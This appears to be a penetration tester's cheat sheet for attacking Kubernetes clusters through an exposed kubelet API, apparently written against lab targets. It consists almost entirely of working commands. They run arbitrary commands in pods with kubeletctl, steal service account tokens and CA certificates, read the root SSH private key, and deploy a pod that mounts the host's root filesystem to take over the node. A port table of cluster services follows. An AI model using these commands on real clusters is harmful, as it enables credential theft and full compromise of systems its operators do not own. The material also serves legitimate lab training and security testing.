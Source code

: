 # kubectl
```bash
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"

chmod +x kubectl
```

# kubeletctl
```bash
wget https://github.com/cyberark/kubeletctl/releases/download/v1.6/kubeletctl_linux_amd64
chmod +x kubeletctl_linux_amd64
mv kubeletctl_linux_amd64 kubeletctl

./kubeletctl --server 10.129.47.153 pods

# list available commands
./kubeletctl --server 10.129.47.153 scan rce

 # run command
./kubeletctl -i --server 10.129.47.153 exec "id" -p nginx -c nginx

# extract token
./kubeletctl -i --server 10.129.10.11 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx | tee -a k8.token

# extract cert
./kubeletctl --server 10.129.10.11 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx | tee -a ca.crt

# list privilleges
export token=`cat k8.token`
kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.10.11:6443 auth can-i --list

# extracting root ssh key
kubeletctl --server 10.129.10.11 exec "cat /root/root/.ssh/id_rsa" -p privesc -c privesc
```

# Token 
```
/var/run/secrets/kubernetes.io/serviceaccount/token
/var/run/secrets/kubernetes.io/serviceaccount/ca.crt
```

```bash
kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.47.153:8443 get pods


kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.47.153:8443 auth can-i --list

```
## Get pods
```bash
curl https://10.129.10.11:10250/pods -k | jq .
```
## Create a new pod
f.yml:
```yaml
apiVersion: v1
kind: Pod
metadata:
	name: nginxt
	namespace: default
spec:
	containers:
	- name: nginxt
		image: nginx:1.14.2
		volumeMounts:
		- mountPath: /root
			name: mount-root-into-mnt
	volumes:
	- name: mount-root-into-mnt
		hostPath:
			path: /
	automountServiceAccountToken: true
	hostNetwork: true
```
```bash
./kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.47.153:8443 apply -f f.yml 
```

# Ports

| **Service**             | **TCP Ports**  |
| ----------------------- | -------------- |
| `etcd`                  | `2379`, `2380` |
| `API server`            | `6443`         |
| `Scheduler`             | `10251`        |
| `Controller Manager`    | `10252`        |
| `Kubelet API`           | `10250`        |
| `Read-Only Kubelet API` | `10255`        |

